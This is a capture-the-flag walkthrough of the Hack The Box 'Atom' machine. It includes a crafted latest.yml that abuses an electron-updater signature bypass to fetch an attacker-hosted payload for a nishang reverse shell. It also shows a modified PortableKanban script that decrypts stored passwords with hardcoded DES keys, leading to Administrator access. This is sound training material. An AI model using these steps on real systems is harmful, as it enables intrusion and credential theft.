

# Hackthebox - Atom

FIrst I run Nmap to scan for open ports.
```bash
Nmap scan report for 10.129.171.222
Host is up (0.17s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Port 80 which is HTTP is open, so I go to my browser and open the web page.


Port 443 which is HTTPs is also open, but it gives me the same web page. I started gobuster on the HTTP page.


Gobuster gets a directory called releases and it lists a ZIP file.


I downloaded the zip file and see that it contains an exe file. I am in a linux machine so I decided to leave this first and enumerate other ports first.


I use Smbmap to enumerate port 445 which is SMB and got an interesting share called **Software_Updates**.


I try listing it and got a pdf file.


I use Smbclient to download the pdf file to my machine.


The pdf says that the application is build using electron-builder which has a few exploits, but the pdf says that the application has no server interaction at all which means I can't use those exploits. So I was stuck for quite some time and then I reread the pdf again and got interested in the update mechanism.


I started Googling if there is anyway we can exploit the update mechanism which is in the pdf and found an article (https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html). We can create a yml file that will point to our own executable file. So I create an executable file that will download a ps1 file from nishang (https://github.com/samratashok/nishang). I use Invoke-PowershellTcp for my reverse shell ps1 file.


I create the file called **latest.yml**.
```bash
version: 1.2.3
path: http://10.10.14.49:8000/s'hell.exe
sha512: wJ01rJjmM/Si7sAZyxD9ySOT+pOG8Ms/ER9UIkztMOKn/1aI1plEXOWxp90wNhLDkJt17zTV13V0EaVTqnL1+Q==
```

I upload the yaml file to the client1 folder.


Wait a bit and got a reverse shell with powershell and I can get the user flag.


Next I use winpeas to enumerate the box. There is a directory called PortableKanban which is interesting.


I immediately search about this software and found an exploit (https://www.exploit-db.com/exploits/49409). The problem is the script is in python and python isn't installed on the box. So I take a step back and try to poke around the box myself.

At the beginning, I started Nmap to scan for all ports.
```bash
Nmap scan report for 10.129.171.229
Host is up (0.17s latency).
Not shown: 65529 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
5985/tcp open  wsman
6379/tcp open  redis
```
There is redis on the box, so I find it's configuration file and got a password.


I connect to the server using redis-cli, and dump all the keys available.


When getting one of the key, it gives me an encrypted password.


I can't identify what kind of encryption this is, but the exploit from PortableKanban says that it can decrypt passwords from the the PortableKanban.pk3 file. So I just take a wild guess and try to decrypt it using the exploit script.

I modify the script to just decrypt the encrypted password from redis.
```bash
import json
import base64
from des import * #python3 -m pip install des
import sys

def decode(hash):
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print("{}".format(decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi")))
```

Running the script and it gives me a password.


If you look back at the Nmap result, it says that Windows Remote Protocol is open. I use this password and evil-winrm to login to the box as Administrator.
